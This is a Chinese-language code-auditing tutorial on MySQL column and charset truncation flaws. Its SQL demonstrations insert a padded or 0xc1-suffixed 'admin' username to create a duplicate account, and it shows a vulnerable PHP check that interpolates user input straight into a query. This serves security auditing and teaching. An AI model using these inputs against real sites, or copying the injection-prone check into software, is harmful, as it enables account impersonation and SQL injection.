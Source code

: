 对于很多web应用文件在很多功能是不容许重复数据的，比如用户注册功能等。一般的应用程序对于提交注册的username和数据库里已有的username对比是不是已经有重复数据，然而我们可以通过“数据截断”等来饶过这些判断，数据库在处理时候产生截断导致插入重复数据。

*1) Mysql SQL Column Truncation Vulnerabilities*

这个漏洞又是大牛Stefan Esser发现的（Stefan Esser是我的偶像:)），这个是由于mysql的sql_mode设置为default的时候，即没有开启STRICT_ALL_TABLES选项时，MySQL对于插入超长的值只会提示warning，而不是error（如果是error就插入不成功），这样可能会导致一些截断问题。测试如下：
    
```
mysql> insert into truncated_test(`username`,`password`) values("admin","pass");

mysql> insert into truncated_test(`username`,`password`) values("admin           x", "new_pass");
Query OK, 1 row affected, 1 warning (0.01 sec)

mysql> select * from truncated_test;
+----+------------+----------+
| id | username   | password |
+----+------------+----------+
| 1 | admin      | pass     |
| 2 | admin      | new_pass |
+----+------------+----------+
2 rows in set (0.00 sec)
```

*2) Mysql charset Truncation vulnerability*

这个漏洞是80sec发现的，当mysql进行数据存储处理utf8等数据时对某些字符导致数据截断。测试如下：
    
```
mysql> insert into truncated_test(`username`,`password`) values(concat("admin",0xc1), "new_pass2");
Query OK, 1 row affected, 1 warning (0.00 sec)

mysql> select * from truncated_test;
+----+------------+----------+
| id | username   | password |
+----+------------+----------+
| 1 | admin      | pass      |
| 2 | admin      | new_pass  |
| 3 | admin      | new_pass2 |
+----+------------+----------+
2 rows in set (0.00 sec)
```
    
很多的web应用程序没有考虑到这些问题，只是在数据存储前简单查询数据是否包含相同数据，如下代码：

```
$result = mysql_query("SELECT * from test_user where user='$user' ");
  ....
if(@mysql_fetch_array($result, MYSQL_NUM)) {
	die("already exist");
}
```

| *漏洞审计策略* |
| PHP版本要求：无<br>系统要求：无<br>审计策略：通读代码 |
